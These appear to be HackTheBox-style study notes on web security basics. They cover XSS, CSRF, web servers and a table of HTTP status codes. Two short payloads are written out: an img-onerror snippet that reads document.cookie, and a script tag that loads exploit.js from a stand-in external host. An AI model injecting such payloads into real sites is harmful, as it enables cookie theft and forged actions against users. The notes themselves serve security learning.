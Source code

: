 [[HackTheBox]]

## Crossite Scripting
injecting JavaScript code to be executed on the client-side.
ex. payload
```
#"><img src=/ onerror=alert(document.cookie)>
```
## Cross-Site Request Forgery (CSRF)
attacks may utilize XSS vulnerabilities to perform certain queries, and API calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.
```
"><script src=//www.example.com/exploit.js></script>
```
## Web Servers
is an application that runs on the back end server, which handles all of the HTTP traffic from the client-side browser, routes it to the requested pages, and finally responds to the client-side browser. Web servers usually run on TCP ports 80 or 443, and are responsible for connecting end-users to various parts of the web application, in addition to handling their various responses.

## HTTP Status Codes

| Code | Description                        | Meaning                                                                 |
|------|------------------------------------|-------------------------------------------------------------------------|
| **200** | OK                             | The request has succeeded.                                              |
| **301** | Moved Permanently              | The URL of the requested resource has been changed permanently.         |
| **302** | Found                          | The URL of the requested resource has been changed temporarily.         |
| **400** | Bad Request                    | The server could not understand the request due to invalid syntax.      |
| **401** | Unauthorized                   | Unauthenticated attempt to access page.                                 |
| **403** | Forbidden                      | The client does not have access rights to the content.                  |
| **404** | Not Found                      | The server cannot find the requested resource.                          |
| **405** | Method Not Allowed             | The request method is known but has been disabled.                      |
| **408** | Request Timeout                | The server timed out waiting for the request.                           |
| **500** | Internal Server Error          | The server encountered an unexpected condition.                         |
| **502** | Bad Gateway                    | The server received an invalid response from the upstream server.       |
| **504** | Gateway Timeout                | The server, acting as a gateway, timed out waiting for a response.      |
